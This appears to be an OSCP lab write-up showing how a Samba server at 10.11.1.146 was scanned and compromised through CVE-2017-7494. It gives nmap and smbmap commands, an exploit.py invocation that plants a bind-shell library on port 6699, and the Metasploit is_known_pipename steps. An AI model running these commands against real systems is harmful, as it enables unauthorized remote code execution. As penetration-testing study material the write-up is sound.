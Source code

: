 # Susie OSCP Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -sV -oA fulloscp_146 -T4 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232694983-90eab4ce-ea30-4a6d-b8ad-f8e9afe06711.png)

``nmap -sC -sV -oA oscp_146 -T4 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695163-76739356-f0f6-420a-98cf-33bd6aff143f.png)

# ${{\color{purple}Initial Foothold}}\ $

``nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695631-8e29419d-bf53-4f11-bec0-4cd6aa5cd75e.png)

``smbmap -H 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695874-07a4235a-607d-4730-b313-5136f43e7d8a.png)

``searchsploit samba 4.5``

![image](https://user-images.githubusercontent.com/123066149/232696138-d6553032-0abf-4d2e-937b-ee5394af245b.png)

# ${{\color{purple}Exploitation}}\ $

### I used this exploit for the exploitation part :

https://github.com/opsxcq/exploit-CVE-2017-7494

![image](https://user-images.githubusercontent.com/123066149/232697136-b2ea7ad6-e702-4de9-a38d-3dc459545b96.png)

### I used this ressource for help me :

https://redteamzone.com/EternalRed/

![image](https://user-images.githubusercontent.com/123066149/232698850-ba6d7f77-73ad-4714-bc60-166966e32a65.png)

### I userd ``libbindshell-samba.so`` it's a bind shell on port 6699 :
### Susishare is the name of the share and ``/SusieShare/libbindshell-samba.so`` is a path of the .so payload
### User and pass are not important because it's no authentification share 

``python2.7 exploit.py -t 10.11.1.146 -e libbindshell-samba.so -s SusieShare -r /SusieShare/libbindshell-samba.so -u grest -p guest -P 6699``

### I don't have a shell with this methode :

![image](https://user-images.githubusercontent.com/123066149/232699367-1215ef49-253a-4687-b874-395372d75ad1.png)

### After trying different methods change the payload change the path of the executable I did not succeed to exploit it manually.
### I used metasploit and noticed that it was using an internal path :

``search samba``

``use exploit/linux/samba/is_known_pipename``

`` set RHOSTS 10.11.1.146``

``exploit``

![image](https://user-images.githubusercontent.com/123066149/232703390-5da2ceae-d84c-415c-a787-b170ce0fb0f2.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/232703497-ab44b5f3-2e2c-4a5f-aef5-af4225a13910.png)

# ${{\color{purple}Manual exploitation other way}}\ $

nmap --script smb-enum-shares -p 445 10.11.1.146

# ${{\color{purple}Points of Improvement}}\ $

* Test this exploit on another vulnerable target
